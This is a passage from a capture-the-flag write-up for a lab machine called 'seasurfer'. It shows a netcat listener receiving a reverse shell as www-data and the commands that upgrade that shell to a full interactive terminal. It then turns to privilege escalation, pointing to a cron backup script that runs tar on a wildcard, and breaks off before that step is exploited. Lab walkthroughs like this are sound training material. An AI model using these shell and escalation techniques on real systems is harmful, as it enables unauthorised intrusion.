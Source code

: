 ```
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.2.70 50442
Linux seasurfer 5.4.0-107-generic #121-Ubuntu SMP Thu Mar 24 16:04:27 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 19:42:58 up 53 min,  1 user,  load average: 0.04, 0.03, 0.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@seasurfer:/$ export TERM=xterm
export TERM=xterm
www-data@seasurfer:/$ export SHELL=/bin/bash
export SHELL=/bin/bash
www-data@seasurfer:/$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                                                                                                   
┌──(user㉿host)-[~/thm/sea_surfer]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 4444

www-data@seasurfer:/$
```

Now, we have fully interactive shell with shell history and auto-complition ;)

## Privilege escalation

### kyle

There is one folder `maintenance/` to which we didn't have access to from web, but now we can see what's inside.

```
www-data@seasurfer:/var/www/internal/maintenance$ ls -al
total 12
drwxrwxr-x 2 kyle     kyle     4096 Apr 19 15:24 .
drwxrwxrwx 4 www-data www-data 4096 Apr 20 10:53 ..
-rwxrwxr-x 1 kyle     kyle      286 Apr 19 15:13 backup.sh
www-data@seasurfer:/var/www/internal/maintenance$ cat backup.sh 
#!/bin/bash

# Brandon complained about losing _one_ receipt when we had 5 minutes of downtime, set this to run every minute now >:D
# Still need to come up with a better backup system, perhaps a cloud provider?

cd /var/www/internal/invoices
tar -zcf /home/kyle/backups/invoices.tgz *

```

well, backup.sh. It runs in cron 100%, but let's check it with pspy.&#x20;
